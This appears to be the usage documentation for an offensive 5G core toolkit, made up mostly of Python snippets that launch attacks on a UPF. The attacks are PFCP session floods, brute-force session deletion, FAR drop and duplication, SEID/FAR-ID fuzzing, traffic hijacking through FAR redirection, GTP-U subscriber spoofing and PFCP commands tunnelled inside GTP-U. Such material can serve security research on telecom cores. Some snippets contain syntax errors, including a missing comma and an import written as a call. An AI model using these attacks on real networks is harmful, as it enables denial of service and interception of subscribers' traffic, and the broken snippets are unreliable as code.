 # PFCP Attacks

## DoS PFCP Attacks

### PFCP Session Establishment Flood
Floods the target UPF with massive PFCP session establishment requests to exhaust resources and cause denial of service.

```python
from src.pfcpToolkit.pfcpDosAttack import PFCPDosAttack

# Initialize DoS attack
dos_attack = PFCPDosAttack()

# Basic flood attack
dos_attack.start_pfcp_session_establishment_flood(
    evil_addr="192.168.1.100",
    upf_addr="192.168.1.200",
    src_port=8805,
    dest_port=8805,
    num_threads=2,
    infinite=False
    randomize=True,
    random_far_number=15
)

# Infinite flood attack
dos_attack.start_pfcp_session_establishment_flood(
    evil_addr="192.168.1.100",
    upf_addr="192.168.1.200",
    reqNbr=1000,
    num_threads=5,
    infinite=True
)
```

---

### PFCP Session Deletion Brute Force
Enumerates SEIDs to delete active PFCP sessions.

```python
from src.pfcpToolkit.pfcpDosAttack import PFCPDosAttack

dos_attack = PFCPDosAttack()

# Brute force session deletion
dos_attack.start_pfcp_session_deletion_bruteforce(
    evil_addr="192.168.1.100",
    upf_addr="192.168.1.200",
    reqNbr=1000,
    num_threads=5

)
```

---

### PFCP Session Deletion Targeted
Deletes a specific PFCP session by SEID.

```python
from src.pfcpToolkit.pfcpDosAttack import PFCPDosAttack

dos_attack = PFCPDosAttack()

# Target specific session
dos_attack.start_pfcp_session_deletion_targeted(
    target_seid=0x1,
    evil_addr="192.168.1.100",
    upf_addr="192.168.1.200"
)
```

---

### PFCP Session Modification FAR Drop Brute Force
Modifies forwarding rules to drop traffic by brute forcing SEID/FAR combinations.

```python
from src.pfcpToolkit.pfcpDosAttack import PFCPDosAttack

dos_attack = PFCPDosAttack()

# Brute force FAR modifications to drop traffic
dos_attack.start_pfcp_session_modification_far_drop_bruteforce(
    far_range=100,
    session_range=100,
    evil_addr="192.168.1.100",
    upf_addr="192.168.1.200"
)
```

---

### PFCP Session Modification FAR Duplication Brute Force
Forces packet duplication to amplify network traffic and consume resources.

```python
from src.pfcpToolkit.pfcpDosAttack import PFCPDosAttack

dos_attack = PFCPDosAttack()

# Brute force FAR modifications for packet duplication
dos_attack.start_pfcp_session_modification_far_dupl_bruteforce(
    far_range=50,
    session_range=50,
    evil_addr="192.168.1.100",
    upf_addr="192.168.1.200"
)
```


## PFCP Fuzzer
### SEID Fuzzing
Fuzzes SEID values to discover active sessions.

```python
from src.attacks.pfcp.pfcpFuzzer import PFCPFuzzer

fuzzer = PFCPFuzzer()
fuzzer.start_PFCP_SEID_fuzzing(
   upf_addr="192.168.1.200",
   src_addr="192.168.1.100",
   max_seid=100,
   max_far_discover=1,
   src_port=8805,
   dest_port=8805,
)
```

### SEID-FAR-ID Fuzzing 
Fuzzes FAR-ID values to discover forwarding rules.

```python
from src.attacks.pfcp.pfcpFuzzer import PFCPFuzzer

fuzzer = PFCPFuzzer()
fuzzer.start_PFCP_FARID_fuzzing(
   upf_addr="192.168.1.200",
   src_addr="192.168.1.100",
   max_seid=10,
   max_far_discover=100,
   src_port=8805,
   dest_port=8805,
)
```

## PFCP Hijacking
### Hijacking by FAR manipulation
Uses PFCP Modification requests to redirect traffic to the attacker (exploitation of OuterHeaderCreation IE)
```python
from src.attacks.pfcp.pfcpHijack import PFCPHijack

hijack = PFCPHijack()
hijack.start_PFCP_hijack_far_manipulation(
   hijacker_addr="192.168.1.100",
   upf_addr="192.168.1.200",
   seid=0x1,
   src_port=8805,
   dest_port=8805,
   verbose=True,
)
```

# GTP-U Attacks 
## Packet Reflection Vulnerability Up Link Attack
Leverages GTP-U packet reflection vulnerabilities to spoof subscriber IP addresses, allowing attackers to impersonate UEs and conduct malicious activities that appear to originate from legitimate users.


```python
from src.attacks.gtp_u.uplinkSpoofing import start_gtp_uplink_attack 

start_gtp_uplink_attack()
```
## PFCP-In-GTP-U Attack
Encapsulates PFCP control plane commands inside GTP-U data tunnels to bypass security boundaries, enabling attackers to send unauthorized PFCP commands directly to the UPF.

```python
from src.attacks.gtp_u.pfcpInGtpAttack import send_malicious_pfcp_in_gtp_packet(
   src_addr="192.168.1.100"
   dest_addr="192.168.1.200",
   ue_addr="10.60.0.1",
   teid=0x1

)
```


